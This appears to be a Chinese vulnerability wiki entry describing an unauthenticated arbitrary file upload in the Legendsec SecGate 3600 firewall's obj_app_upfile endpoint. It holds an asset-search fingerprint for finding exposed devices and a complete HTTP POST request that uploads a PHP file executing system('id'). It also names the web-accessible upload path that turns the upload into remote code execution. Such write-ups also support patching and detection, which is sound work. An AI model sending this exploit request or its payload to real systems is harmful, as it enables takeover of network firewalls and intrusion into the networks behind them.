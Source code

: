 # 网神 SecGate 3600 防火墙 obj_app_upfile 任意文件上传漏洞

## 漏洞描述

网神 SecGate 3600 防火墙 obj_app_upfile接口存在任意文件上传漏洞，攻击者通过构造特殊请求包即可获取服务器权限

## 漏洞影响

<a-checkbox checked>网神 SecGate 3600 防火墙 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>fid="1Lh1LHi6yfkhiO83I59AYg==" </a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1649350287241-cdcc761f-1cb6-4bb5-befa-ed101065a8bf.png)

出现漏洞的文件 webui/modules/object/app.mds

![img](/assets/PeiQi-Wiki/img/1649487600829-f37244cf-d92a-4c43-845b-42b510536d21.png)

代码中没有对文件调用进行鉴权，且文件上传路径为可访问路径，造成任意文件上传

![img](/assets/PeiQi-Wiki/img/1649487880029-bf876c08-7096-45a6-aafd-a94d7444bf9a.png)

```php
POST /?g=obj_app_upfile HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 574
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="upfile"; filename="vulntest.php"
Content-Type: text/plain

<?php system("id");unlink(__FILE__);?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

默认上传路径 /secgate/webui/attachements/ ， 访问  attachements/xxx.php 文件

![img](/assets/PeiQi-Wiki/img/1649488185594-245e1a3e-604c-42a3-8096-c5e94a6315bd.png)